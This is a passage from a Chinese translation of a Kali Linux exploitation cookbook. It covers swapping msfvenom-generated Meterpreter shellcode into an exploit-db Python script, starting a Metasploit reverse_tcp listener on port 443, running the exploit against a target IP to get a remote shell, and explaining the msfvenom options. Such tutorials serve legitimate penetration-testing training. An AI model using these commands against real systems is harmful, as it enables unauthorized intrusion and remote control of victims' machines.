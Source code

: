 ![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_047.jpg)

请注意，我们已经在`/x90` NOP 代码之后替换了整个 shell 代码。

1.  一旦代码被替换，保存并关闭文件。启动 Metasploit，并输入以下命令，在 Kali 机器上的端口`443`上启动监听器，就像我们创建有效载荷时提到的那样：

```
      msfconsole
      use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lhost <Kali IP address>
      set lport 443
      exploit

```

输出将如下截图所示：

![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_048.jpg)

1.  现在，一旦我们的处理程序启动，我们将执行 Python 脚本，并提到目标 IP 地址和操作系统。转到已编辑文件被复制的桌面，并执行 Python 文件。由于它存储在桌面上，执行以下命令：

```
python 40279.py 192.168.1.11.1

```

输出将如下截图所示：

![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_049.jpg)

1.  一旦脚本执行完毕，请返回监听器，查看是否已收到连接：![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_050.jpg)

太棒了，我们使用 `exploit-db` 上可用的脚本获得了远程 shell。

## 工作原理...

其中大部分已在步行说明中解释。这里介绍的新工具是 `msfvenom`。以下是所使用参数的解释：

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3
LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2fx2ex40"
-f python -a x86

```

+   `-p`：这是需要创建的 payload。

+   `LHOST`：主机，机器应连接到以进行利用。

+   `LPORT`：机器应连接到的端口以进行利用。

+   `-b`：这代表坏字符。它告诉脚本在生成 shell code 时避免使用所述字符。

+   `-f`：这说明了要创建的 shell code 的格式。

+   `-a`：这说明了目标机器的架构，利用将在其上执行。
